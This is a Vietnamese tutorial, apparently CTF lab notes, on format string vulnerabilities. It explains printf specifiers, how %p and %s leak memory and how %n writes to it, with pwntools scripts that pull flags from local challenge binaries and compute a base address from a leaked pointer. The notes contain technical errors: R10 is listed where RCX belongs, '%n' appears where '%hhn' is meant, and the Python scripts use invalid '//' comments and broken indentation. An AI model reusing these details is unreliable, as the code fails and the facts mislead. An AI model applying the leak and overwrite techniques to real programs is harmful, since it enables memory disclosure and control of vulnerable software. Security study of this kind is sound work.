










# FORMAT STRING
Lỗ hổng Format String xuất hiện khi hàm in ấn (như printf) nhận chuỗi định dạng trực tiếp từ đầu vào người dùng mà không qua kiểm tra.
## Các dịnh dạng phổ biến:
`%p` - In ra giá trị dưới dạng địa chỉ con trỏ (Hexadecimal) có tiền tố `0x`.

`%x` - In ra số nguyên 32-bit (unsigned int) dạng Hexadecimal.

`%lx` - In ra số nguyên 64-bit (unsigned long) dạng Hexadecimal.

Khác biệt với `%p` , `%x` chỉ in giá trị số đơn thuần (ví dụ ff), còn `%p` sẽ tự động đệm đủ độ dài con trỏ và thêm `0x` ở đầu (ví dụ 0x000000ff).

`%d` - In ra số nguyên có dấu (Signed Integer) dạng hệ 10.

`%u` - In ra số nguyên không dấu (Unsigned Integer) dạng hệ 10.

`%c` - In ra 1 ký tự duy nhất dựa trên mã ASCII.

`%s` - In ra chuỗi ký tự cho tới khi gặp byte Null (\x00).

`%n` - Không in ra dữ liệu, mà thực hiện ghi số lượng byte đã được in ra trước nó vào địa chỉ biến được truyền vào.

    char name[] = "Alice"; // Chuỗi "Alice" có độ dài 5 bytes
    int count = 0;

    // printf in chuỗi "Hello " (6 bytes) + chuỗi name (5 bytes) = 11 bytes
    printf("Hello %s%n\n", name, &count);

    printf("So byte đã in trước %%n là: %d\n", count); 
    // Kết quả in ra: 11

`%hn` - Ghi giá trị 2 bytes (short int).

`%n` - Ghi giá trị 1 byte (unsigned char).

## Cơ chế printf trên hệ thống 32-bit, 64-bit:

32-bit: In dữ liệu trên Stack

64-bit: 5% đầu là 5 thanh ghi (Registers) theo thứ tự: RSI, RDX, R10, R8, R9 (do RDI chứa chính chuỗi printf). % thứ 6 là dữ liệu trên Stack.

## Leak memory

Leak dữ liệu trên Stack (`%p`): Truyền nhiều `%p` (hoặc dùng dạng rút gọn như `%8$p`) để đọc các địa chỉ/giá trị đang lưu trên Stack.

Leak dữ liệu tại địa chỉ Stack (`%s`): Dùng `%s` trỏ tới vị trí chứa địa chỉ hợp lệ để đọc chuỗi ký tự tại địa chỉ mong muốn.

## Ghi đè dữ liệu

Dùng `%n` để ghi đè giá trị vào bộ nhớ: 

`%n` đếm tổng số ký tự/byte đã in ra màn hình trước đó để ghi số đó vào địa chỉ đích.

Padding bằng `%c`: Dùng định dạng độ rộng như `%28c` để ghi đè đúng số 28 vào.

Short form: `%28c%8$n` tức in ra 28 byte (`%28c`), sau đó lấy giá trị 28 đó ghi vào địa chỉ nằm ở vị trí thứ 8 trên Stack (`%8$n`)

# LEAK DỮ LIỆU BẰNG %p

File flag.txt đã mở sẵn và được lưu trên Stack. Trong chương trình cón có lỗ hổng format string, chỉ cần đưa %p vào biến format là có thể đọc dữ liệu trên Stack.

Chuỗi flag được lưu ở Stack có thể được truy cập từ % thứ 12.

Script Python:

    #!/usr/bin/env python3
    from pwn import *
    exe=ELF('./fmtstr1',checksec=False)

    for i in range(12,20):                 // Đi hết 64 BYTE để đảm bảo không in thiếu flag
	p=process(exe.path)

	p.sendafter(b'string: ',f'%{i}$p')
	output=p64(int(p.recvall(),16))
	print(output)
	p.close()
    if b'}' in output:                      // Thoát chương trình khi đã in đủ hết flag
        p.exit()

    p.interactive()

# LEAK DỮ LIỆU BẰNG %s

Chương trình này cũng mở sẵn flag nhưng flag lần này được ghi vào vùng nhớ Heap. 

Trong Stack chỉ có biến buf chứa địa chỉ đầu vùng nhớ chứa flag vậy nên không thể dùng `%p` (in ra giá trị) mà cần dùng `%s` (in ra giá trị nằm trong địa chỉ được trỏ tới).

Script Python:

	#!/usr/bin/env python3
	from pwn import *
	exe=ELF('./fmtstr2',checksec=False)
	p=process(exe.path)

	p.sendafter(b'Say something: ',f'%7$s')
	print(p64(int(p.recvall(),16)))
	
	p.interactive()

# LEAK DỮ LIỆU KẾT HỢP %p VÀ %s

Flag được chia thành 2 phần: 1 nằm trong con trỏ ptr là biến cục bộ nằm trên Stack, 1 nằm trong biến toàn cục flag2.

Ngoài ra có thêm 2 lỗ hổng Format string. 

Nửa flag đầu có thể lấy từ Stack .Nhưng nửa sau nằm trong biến toàn cục yêu cầu cần có địa chỉ để truy cập. Trước tiên ta cần leak địa chỉ binary để tính base address.

Tính số % để đến ô chứa địa chỉ binary: `p/d (0x7ffe91c0ad18-0x7ffe91c0acc0)/8 +6` = `17`
	
Dùng `%8$s` để đọc nửa flag đầu trước. Sáu đó dùng `%17$p` để leak địa chỉ binary.

	p.sendlineafter(b'Your name: ',b'%8$s%17$p')
	
	p.recvuntil(b'Hello ')
	flag=b''							   //Khai báo sẵn biến flag kiểu dữ liệu rawbytes
	flag=p.recvuntil(b'0x',drop=True)      //lấy dữ liệu sau 'Hello ' gán vào biến flag, bỏ kí tự '0x' do C thêm vào khi dùng %p
	exe_leak=int(p.recvline()[:-1],16)     //lấy hết nguyên dòng địa chỉ và [:-1] bỏ đi kí tự \n từ recvline()

Tính offset từ địa chỉ binary leak được đến base address

	
Tính offset từ địa chỉ base address đến flag2

Tính địa chỉ chứa flag2:

	exe.address=exe_leak-0x14e6
	flag2_addr=exe.address+0x4060

